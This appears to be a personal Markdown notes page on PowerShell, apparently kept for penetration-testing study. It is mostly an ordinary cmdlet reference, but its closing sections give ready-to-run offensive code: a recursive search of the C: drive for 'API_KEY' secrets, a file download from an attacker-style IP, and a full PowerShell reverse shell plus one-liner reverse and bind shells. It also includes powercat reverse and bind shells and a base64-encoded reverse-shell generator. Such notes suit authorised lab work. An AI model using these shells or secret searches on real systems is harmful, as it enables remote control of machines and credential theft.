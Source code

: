 ```yaml
---
title: Powershell
tags:
- snippet
- tool
- shell
- windows
- powershell
---
```


Powershell is an object-oriented scripting language made for Windows.

Most commands are commandlets which are typically of the form *Verb*-*Noun*.  
Common verbs: **Get**, **Start**, **Stop**, **Read**, **Write**, **New**, **Out**  
For more common verbs see:  
https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7.

## Man Pages

To get information about a cmdlet, use the `Get-Help` cmdlet.

eg.
```powershell
Get-Help Get-Process
```

To see example usages, pass the `-Examples` flag

## Syntax

Case insensitive

Backtick to escape characters

Can use `|` to pipe the output of a cmdlet into another  
???+ note
    As the output of cmdlets are objects not raw strings, it is different from a bash pipe

## Execution Policy

By default, only signed scripts can be run, this can be chagned with
```powershell
Set-ExecutionPolicy -Scope CurrentUser Bypass
```
If you have Admin, you can leave out the `-Scope CurrentUser`

## Useful Commands

### Get-Command

Roughly equivalent to `which` in bash

Lists commands on the current computer.  
Supports pattern matching eg.
```powershell
Get-Command New-*
```

### Get-Member

Gets properties and methods of objects

TODO: Work out what that means

### Get-ChildItem

Roughly like `ls` in bash

eg. List files and directories in `Desktop` folder
```powershell
Get-ChildItem .\Desktop\
```

To see hidden files use `-Force`

eg. An agnozing example
```powershell
Get-ChildItem -Path C:\ -Force -Recurse -ErrorAction SilentlyContinue -Include interesting-file*
```

### Get-Content

Get contents of file, like bash `cat` command.

### Select-Object

Pull out properties from output of another cmdlet.

eg. To list just the mode and name for files/dirs within the current directory
```powershell
Get-ChildItem | Select-Object -Property Mode, Name
```

eg. Get first 5 items in current directory (like `head` in bash)
```powershell
Get-ChildItem | Select-Object -First 5
```

eg. Get last 5 items in current directory (like `tail` in bash)
```powershell
Get-ChildItem | Select-Object -Last 5
```
Other useful flags:
- Index
- Unique
- Skip
- ExcludeProperty

### Where-Object

Only select objects that match a filter. Sort of like `grep`.

eg. List files modified after 10/4/2019
```powershell
Get-ChildItem | Where-Object -Property LastWriteTime -GT 10/4/2019
```
Useful operators:

- `-Contains` - if collection has item that exactly matches
- `-EQ` - Exactly equal
- `-LT`
- `-GT`
- `-GE` - Greater than or equal

For more details:  
https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-7.1#examples

### Sort-Object

Kinda like bash `sort` command.

Useful flags:

- `-Unique` 

Example I don't understand:
```powershell
Get-Service | Sort-Object -Property @{Expression = "Status"; Descending = $True}, @{Expression = "DisplayName"; Descending = $False}
```

## Base64

Powershell does not have a native way to do Base64 encode / decode so instead you can do

Decoding
```powershell
$data = Get-Content .\b64.txt
$decoded = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($data))
```

Encoding
```powershell
$decoded = Get-Content .\somefile.txt
$encoded = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($decoded))
```

## Other Useful Commands

- Measure-Object - like `wc`
- Invoke-Webrequest - like `curl` or `wget`
- Get-FileHash - like `md5sum`
- Get-Location - like `pwd`
- Get-LocalUser - list users
- Get-LocalGroup - list groups
- Get-NetIPAddress - like `ip addr`
- Get-NetTCPConnection - like `netstat -t`
- Get-HotFix - list installed updates

## Other Tasks

Find files containing the string "API_KEY"
```powershell
Get-ChildItem -ErrorAction SilentlyContinue -Recurse -Path C:\ | Select-String -ErrorAction SilentlyContinue "API_KEY" -List | Select Path
```

Download a file
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe', 'C:\Users\Public\wget.exe')
```

Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.119.154',9001);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```

Or as a one liner
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

Bind Shell
```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

## Powercat

"I just want netcat"
Download **powercat**
```bash
sudo apt install powercat
```
Then copy over `/usr/share/windows-resources/powercat/powercat.ps1`

Run `. .\powercat.ps1`

Then you can use `powercat` mostly in place of netcat

Bind Shell
```powershell
powercat -l -p 443 -e cmd.exe
```
Reverse Shell
```powershell
powercat -c 10.11.0.4 -p 443 -e cmd.exe
```

Generate a standalone script for reverse shell
```powershell
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
```
Generate a base64 encoded standalone script for reverse shell
```powershell
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > reverseshellencoded.ps1
```
